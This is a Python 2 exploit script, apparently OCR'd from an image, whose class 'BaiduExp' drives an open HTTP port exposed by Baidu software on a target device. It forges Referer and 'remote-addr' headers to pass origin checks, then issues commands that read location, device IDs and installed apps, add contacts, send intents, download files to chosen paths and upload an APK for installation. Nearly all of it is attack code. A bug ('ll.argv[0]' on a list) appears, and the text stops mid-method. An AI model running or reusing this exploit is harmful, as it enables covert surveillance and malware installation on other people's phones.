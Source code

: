 ```python
from optparse import OptionParser
from json import JSONEncoder
import requests,sys
import subprocess

class BaiduExp:
    commands = ["geolocation", "getsearchboxinfo", "getapn", "getserviceinfo", "getpackageinfo", "sendintent", "getcuid", "getlocstring", "scandownloadfile", "addcontactinfo", "getapplist", "downloadfile", "uploadfile"]
    matchUrl = "http://www.baidu.com/"
    def __init__(self, target, port, isRefCap=True):
        self.target = target
        self.port = port
        if (isRefCap):
            self.headers = {'Referer': self.matchUrl}
        else:
            self.headers = {'referer': self.matchUrl}
        self.headers.update({'remote-addr':'127.0.0.1'})#add in new Baidumap v8.5
        self.payload = {'callback':'xxx', 'mcmdf':'inapp_xxx'}

    def __getTargetUrl(self, command):
        if (command in self.commands):
            targetUrl = "http://" + self.target + ":" + self.port + "/"+command 
            return targetUrl
        else:
            print "Error! Command not found"
            exit(-1)

    def sendpayload(self, command, params=None):
        url = self.__getTargetUrl(command)
        if(url != None):
            if(command == 'sendintent'):
                self.payload['intent'] = params 
            elif(command == 'addcontactinfo'):
                contact_list = params.split(',') # support mulitiple contact add, but now we just test 1 in the form of <name,number>
                contact_item = [{'name':contact_list[0],'starred':1,'fields':[{'type':'phone', 'type_code':2, 'type_ext':2, 'value':contact_list[1]}]}]
                data = JSONEncoder(sort_keys=True).encode(contact_item)
                self.payload['postdata'] = data 
            elif(command == 'getpackageinfo'):
                self.payload['packagename'] = params
            elif(command == 'downloadfile'):
                download_params = params.split(',') #in the form of (download or qurey),downloadurl,savepath
                self.payload['querydown'] = download_params[0] 
                self.payload['downloadurl'] = download_params[1]
                self.payload['savepath'] = download_params[2]
                self.payload['filesize'] = '1233' # just a magic number
            elif(command == 'uploadfile'): 
                upload_params = params.split(',') #in the form of Filename,install_type(onlyroot, all) 
                self.payload['Filename'] = upload_params[0]
                self.payload['install_type'] = upload_params[1]
                url = url + "?"
                for(x,y) in self.payload.items():
                    url = url + x +"=" +y +"&"
                print url
                return subprocess.check_output(["curl","-F","file=@1.apk","-e",self.matchUrl,url]) # use curl instead of requests               
            elif(command == 'scandownloadfile'):
                ll = params.split(',')
                self.payload['intent'] = ll.argv[0]
```